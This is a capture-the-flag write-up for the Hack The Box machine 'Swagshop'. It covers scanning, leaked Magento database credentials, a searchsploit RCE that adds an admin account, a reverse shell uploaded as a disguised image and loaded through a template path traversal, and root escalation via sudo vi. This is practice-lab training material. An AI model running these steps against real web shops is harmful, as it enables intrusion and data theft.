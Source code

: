 ```yaml
---
layout: post
title: "HTB-Swagshop"
categories: HTB-Walkthrough
---
```


![swagshop](/assets/img/swagshop/swagshop1.png)


Swagshop is another OSCP-like box from TJNull's list of retired HTB machines.



<h3>Nmap</h3>

```
nmap -sV -Pn 10.10.10.140 -sC |tee -a swag.txt


Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-09 18:29 EDT
Nmap scan report for 10.10.10.140
Host is up (0.096s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```


<hr width="300" size="10">


<h3>Gobuster</h3>
```
gobuster dir -u http://10.10.10.140/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t50 -x .php,.txt
```
```
/media (Status: 301)
/index.php (Status: 200)
/includes (Status: 301)
/lib (Status: 301)
/install.php (Status: 200)
/app (Status: 301)
/js (Status: 301)
/api.php (Status: 200)
/shell (Status: 301)
/skin (Status: 301)
/cron.php (Status: 200)
/LICENSE.txt (Status: 200)
/var (Status: 301)
/errors (Status: 301)
[ERROR] 2020/04/09 18:32:47 [!] Get http://10.10.10.140/enterprise_off.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/04/09 18:36:34 [!] Get http://10.10.10.140/ViewSonic_VX2025wm.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/mage (Status: 200)
[ERROR] 2020/04/09 18:40:37 [!] Get http://10.10.10.140/turkmenistan_Niyazov60.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/server-status (Status: 403)
```


<hr width="300" size="10">


<h3>Web</h3>

![swag](/assets/img/swagshop/swag-web1.png)


This is a Magento ecommerce site


<hr width="300" size="10">

We can find some database creds in:
```
http://10.10.10.140/app/etc/local.xml
```


```
<install><date>Wed, 08 May 2019 07:23:09 +0000</date></install>
<crypt><key>b355a9e0cd018d3f7f03607141518419</key></crypt><disable_local_modules>
false</disable_local_modules><resources><db><table_prefix></table_prefix></db>
<default_setup><connection><host>localhost</host>
<username>root</username><password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
```


`searchsploit` offers a RCE exploit written in python

```
Magento eCommerce - Remote Code Execution  | exploits/xml/webapps/37977.py
```

copy it to the present working directory with:
```
searchsploit -m 37977
```

Checking the exploit out, we just need to adjust a few details.

![exploit](/assets/img/swagshop/swag-exploit.png)

Run it:

```
python exploit.py
WORKED
Check http://10.10.10.140/index.php/admin with creds sh1n0bi:sh1n0bi
```

Login with sh1n0bi/sh1n0bi


We gain access to the admin panel:

![admin-panel](/assets/img/swagshop/swag-admin-panel.png)



<hr width="300" size="10">



<h3>Froghopper</h3>

An explaination of the `froghopper` method to exploit Magento can be found [here](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)



Copy a php-reverse-shell as a jpg file:
```
cp evil.php evil.jpg
```


Allow symlinks in `system configuration`

![symlinks](/assets/img/swagshop/swag-sys-config-dev-allow-symlinks.png)



upload image in `product category`.

![new product category](/assets/img/swagshop/swag-addproductcategory.png)


then create new `newsletter template`.

![newsletter-template](/assets/img/swagshop/swag-newsletter-template.png)

add block code between double curly braces....save it.

```

block type="core/template" template='../../../../../../media/catalog/category/evil.jpg'

```

Make sure that a netcat listener is set
```
nc -nlvp 6969
```

Select the created template and click 'preview' to execute the reverse-shell.

![revshell](/assets/img/swagshop/swag-revshell.png)




<hr width="300" size="10">



Improve the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/$ ^Z
[1]+  Stopped                 nc -nlvp 6969
root@kali:~/HTB/active/swagshop# stty raw -echo
root@kali:~/HTB/active/swagshop# nc -nlvp 6969
root@kali:~/HTB/active/swagshop# fg
www-data@swagshop:/$ 
```

<hr width="300" size="10">


<h3>Privilege Escalation</h3>


One of the first commands you should always try is `sudo -l` it can potentially reveal what commands
a user can make as root:

```
www-data@swagshop:/$ sudo -l
Matching Defaults entries for www-data on swagshop:                                                                
    env_reset, mail_badpass,                                                                                       
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                       
                                                                                                                   
User www-data may run the following commands on swagshop:                                                          
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*                                                                   
www-data@swagshop:/$               
```

www-data can open any file in the /var/www/html directory with the `vi` editor as root...

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/cron.sh
```

when we have our file open, we can get a shell with the `:shell` command.

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/cron.sh                                            
                                                                                                                   
E558: Terminal entry not found in terminfo                                                                         
'unknown' not known. Available builtin terminals are:                                                              
    builtin_amiga                                                                                                  
    builtin_beos-ansi                                                                                              
    builtin_ansi                                                                                                   
    builtin_pcansi                                                                                                 
    builtin_win32                                                                                                  
    builtin_vt320                                                                                                  
    builtin_vt52                                                                                                   
    builtin_xterm                                                                                                  
    builtin_iris-ansi                                                                                              
    builtin_debug                                                                                                  
    builtin_dumb
defaulting to 'ansi'
#!/bin/sh
# location of the php binary
if [ ! "$1" = "" ] ; then
    CRONSCRIPT=$1
else
    CRONSCRIPT=cron.php
fi

MODE=""
if [ ! "$2" = "" ] ; then
        MODE=" $2"
fi

PHP_BIN=`which php`

# absolute path to magento installation
INSTALLDIR=`echo $0 | sed 's/cron\.sh//g'`

#       prepend the intallation path if not given an absolute path
if [ "$INSTALLDIR" != "" -a "`expr index $CRONSCRIPT /`" != "1" ];then
    if ! ps auxwww | grep "$INSTALLDIR$CRONSCRIPT$MODE" | grep -v grep 1>/dev/nu
ll 2>/dev/null ; then
        $PHP_BIN $INSTALLDIR$CRONSCRIPT$MODE &
:shell
root@swagshop:/var/www/html# 
```

Grab both user and root flags!!!

```
root@swagshop:/var/www/html# cat /home/haris/user.txt
a4xxxxxxxxxxxxxxxxxxxxxxxxxxxac8
root@swagshop:/var/www/html# cat /root/root.txt
c2xxxxxxxxxxxxxxxxxxxxxxxxxxx721

   ___ ___
 /| |/|\| |\
/_|  |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
root@swagshop:/var/www/html# 
```

I bought a T-shirt and some stickerz!!!

:)
